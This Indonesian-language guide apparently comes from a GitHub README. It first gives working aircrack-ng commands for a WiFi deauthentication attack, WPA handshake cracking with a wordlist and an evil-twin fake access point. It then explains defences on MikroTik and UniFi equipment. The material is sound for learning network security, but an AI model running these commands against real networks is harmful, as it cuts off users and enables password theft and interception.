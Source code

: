 # Deauthentication Attack

## Pendahuluan
Deauthentication attack adalah serangan DoS pada WiFi dengan mengirim paket deauthentication palsu, memutus koneksi perangkat dari jaringan.

## Cara Kerja
Serangan ini memanfaatkan celah protokol IEEE 802.11, di mana penyerang mengirimkan paket deauthentication agar perangkat target terputus dari jaringan.

### 1. Mengaktifkan Monitor Mode
```bash
airmon-ng start wlan0  # Aktifkan monitor mode
```

### 2. Mencari Target
```bash
airodump-ng wlan0mon  # Scan jaringan
```

### 3. Menjalankan Serangan Deauthentication
```bash
aireplay-ng -0 0 -a [BSSID] -c [CLIENT] wlan0mon  # Target spesifik
aireplay-ng -0 0 -a [BSSID] wlan0mon  # Semua klien
```

### 4. Crack Password (Opsional)
```bash
airodump-ng -d [BSSID] -c [CH] -w [path] wlan0mon
aircrack-ng -w /usr/share/wordlists/rockyou.txt [file.cap]
```

### 5. Membuat AP Palsu (Evil Twin)
```bash
airbase-ng -e "Free WiFi" -c 6 wlan0mon
```

Serangan ini hanya untuk tujuan edukasi dan pengujian keamanan jaringan.

# Prevention Deauthentication

Serangan deauthentication (deauth) adalah jenis serangan yang mengeksploitasi protokol manajemen Wi-Fi untuk memutuskan koneksi pengguna dengan mengirimkan paket deauthentication palsu. Untuk mencegah serangan ini, berikut adalah beberapa metode yang dapat diterapkan:

## 1. Mengaktifkan Protected Management Frames (PMF)
PMF adalah fitur keamanan yang melindungi frame manajemen dari serangan seperti deauth. 

- **MikroTik:**
  ```bash
  /interface wireless security-profiles set [find default=yes] management-protection=required
  ```
  *Pastikan perangkat klien mendukung PMF agar tetap dapat terhubung.*

- **Ubiquiti UniFi:**
  - Buka **UniFi Controller** → **Settings** → **Wireless Networks** → Pilih SSID yang ingin diamankan.
  - Di bagian **Advanced Options**, atur **PMF** ke `Optional` atau `Required`.

## 2. Menggunakan WPA3 atau WPA2-Enterprise
WPA3 memiliki proteksi tambahan terhadap serangan deauth.

- **MikroTik:**
  ```bash
  /interface wireless security-profiles set [find default=yes] authentication-types=wpa2-eap,wpa3-eap
  ```
  *Jika perangkat tidak mendukung WPA3, gunakan mode transisi dengan WPA2.*

- **UniFi:**
  - Masuk ke **UniFi Controller** → **Settings** → **Wireless Networks**.
  - Pilih **WPA3** atau **WPA2/WPA3 Transition Mode** untuk kompatibilitas perangkat lama.

## 3. Menonaktifkan Penyiaran SSID dan Menggunakan Pemfilteran MAC

Menonaktifkan SSID membuat jaringan tidak terlihat oleh perangkat biasa, meskipun masih bisa dideteksi oleh peretas berpengalaman.

- **MikroTik:**
  ```bash
  /interface wireless set [find default-name=wlan1] hide-ssid=yes
  ```
- **UniFi:**
  - Masuk ke **UniFi Controller** → **Settings** → **Wireless Networks**.
  - Centang **Hide SSID** untuk menyembunyikan SSID dari pemindaian.

Pemfilteran MAC dapat digunakan untuk membatasi perangkat yang dapat terhubung.

## 4. Menggunakan Dual-Band dan Load Balancing

Menggunakan SSID terpisah untuk 2.4 GHz dan 5 GHz dapat mengurangi dampak serangan jika salah satu jaringan mengalami deauth.

- **MikroTik:**
  ```bash
  /interface wireless set [find default-name=wlan1] frequency=2.4GHz ssid=SSID_2.4GHz
  /interface wireless set [find default-name=wlan2] frequency=5GHz ssid=SSID_5GHz
  ```

- **UniFi:**
  - Buat dua SSID terpisah untuk 2.4 GHz dan 5 GHz di **UniFi Controller**.
  - Aktifkan **Band Steering** untuk membantu perangkat memilih frekuensi terbaik.

## 5. Menggunakan IDS/IPS untuk Mendeteksi dan Memblokir Serangan
Sistem Intrusion Detection System (IDS) dan Intrusion Prevention System (IPS) dapat mendeteksi dan mencegah serangan deauth.

- **UniFi:**
  - Aktifkan **Threat Management** di **Settings** → **Firewall & Security**.

- **MikroTik:**
  - Gunakan fitur Wireless Intrusion Detection System (WIDS) untuk memonitor aktivitas mencurigakan.

## 6. Membatasi Jangkauan Sinyal dan Menggunakan AP dengan Anti-Jamming
Mengurangi daya pancar sinyal WiFi dapat mengurangi kemungkinan jaringan terdeteksi oleh penyerang.

- **MikroTik:**
  ```bash
  /interface wireless set [find default-name=wlan1] tx-power=15
  ```
- **UniFi:**
  - Masuk ke **UniFi Controller** → **Devices** → Pilih AP → **Config** → **Radio** → Atur **Transmit Power**.

## 7. Monitoring dan Logging Aktivitas Jaringan
Memonitor log jaringan dapat membantu mendeteksi percobaan serangan deauth.

- **MikroTik:**
  ```bash
  /system logging add topics=wireless action=memory
  ```

- **UniFi:**
  - Gunakan fitur **Insights** dan **Logs** di **UniFi Controller** untuk memantau anomali jaringan.

---

Dengan menerapkan metode di atas, risiko serangan deauth dapat diminimalisir secara signifikan, menjaga koneksi Wi-Fi tetap stabil dan aman dari gangguan pihak luar.

### Sumber:
Artikel ini disusun berdasarkan referensi dari:

- [SudoRealm - Deauthentication Attack using Kali Linux](https://sudorealm.com/blog/deauthentication-attack-using-kali-linux)
- [Aircrack-ng - Newbie Guide](https://www.aircrack-ng.org/doku.php?id=newbie_guide)
- [InkyVoxel - How to Enable Monitor Mode](https://www.inkyvoxel.com/how-to-enable-monitor-mode)